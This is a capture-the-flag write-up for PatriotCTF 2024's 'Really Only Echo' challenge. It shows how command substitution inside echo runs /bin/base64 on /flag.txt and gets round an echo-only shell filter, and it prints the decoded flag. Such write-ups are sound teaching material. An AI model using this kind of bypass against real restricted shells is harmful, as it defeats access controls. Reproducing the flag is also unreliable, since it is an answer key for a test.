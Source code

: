 # PatriotCTF 2024 - Really Only Echo
**Title:** Really Only Echo

**Description:** Hey, I have made a terminal that only uses echo, can you find the flag?
`nc chal.competitivecyber.club 3333`

**Files:** [server.py](https://github.com/xtasy94/CTFW/blob/main/PatriotCTF%202024/ReallyOnlyEcho/Files/server.py)

## Solution:
So, in this challenge we were given a terminal where we can only use the `echo` command, now the first step should be to locate where the flag might be, I start searching from the `root` directory:
```bash
Please input command: echo /*
/bin /boot /dev /etc /flag.txt /home /lib /lib64 /media /mnt /opt /proc /root /run /sbin /srv /sys /tmp /usr /var
```

And there's the `flag.txt` file, Naturally, the next step is to attempt to read it using `echo`:
```bash
Please input command: echo $(</flag.txt)
```

Unfortunately, this attempt to read the file fails. Since direct access to the file is blocked, I decide to explore `/bin`, which contains various executable programs. By listing the contents of `/bin`, I look for something that can help:
```bash
Please input command: echo /bin/* 
/bin/[ /bin/base64 /bin/cat /bin/echo /bin/bash ...
```

I spot `/bin/base64`, a program that can encode or decode base64 strings. Using this tool, I attempt to base64-encode the contents of the flag:
```bash
Please input command: echo $(/bin/base64 /flag.txt)
cGN0ZntlY2hvX2lzX3N1Y2hfYV92ZXJzYXRpbGVfY29tbWFuZH0=
```

The output is a base64-encoded string. Decoding this string gives us the flag:
```bash
$ echo "cGN0ZntlY2hvX2lzX3N1Y2hfYV92ZXJzYXRpbGVfY29tbWFuZH0=" | base64 -d
pctf{echo_is_such_a_versatile_command}
```